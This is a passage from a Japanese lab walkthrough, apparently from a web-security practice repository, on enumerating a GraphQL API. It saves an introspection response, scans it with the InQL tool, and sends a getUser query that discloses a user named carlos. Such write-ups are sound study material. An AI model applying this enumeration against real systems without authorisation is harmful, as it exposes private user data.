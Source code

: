 ```
```

レスポンス

```
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
Set-Cookie: session=haWD52nl9nrqufoznqfZ53ETZHKRs7iS; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 36167

{
  "data": {
    "__schema": {
      "queryType": {
        "name": "query"
      },
      "mutationType": {
        "name": "mutation"
      },
・・・・
```

- 9. イントロスペクションの応答本文を JSON ファイルとして保存します。
- 10. inQL タブでエンドポイントをスキャンします
      ![1](https://github.com/pea-sys/web-security-experiments/assets/49807271/65f7123d-acfa-4dd3-9a3e-37c3a803045a)
      次のエンドポイントが検出されます

```graphQL
query {
    getUser(id: Int!) {
        id
        username
    }
}
```

- 11. 次のリクエストを URL エンコーディングして送信します

```
/api?query=query {
	getUser(id:3) {
		id
		username
	}
}
```

レスポンス

```
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
Set-Cookie: session=sJ0s9P4AZH1Js2ccaF1W81Yr04KlCXov; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 84

{
  "data": {
    "getUser": {
      "id": 3,
      "username": "carlos"
    }
  }
}
```
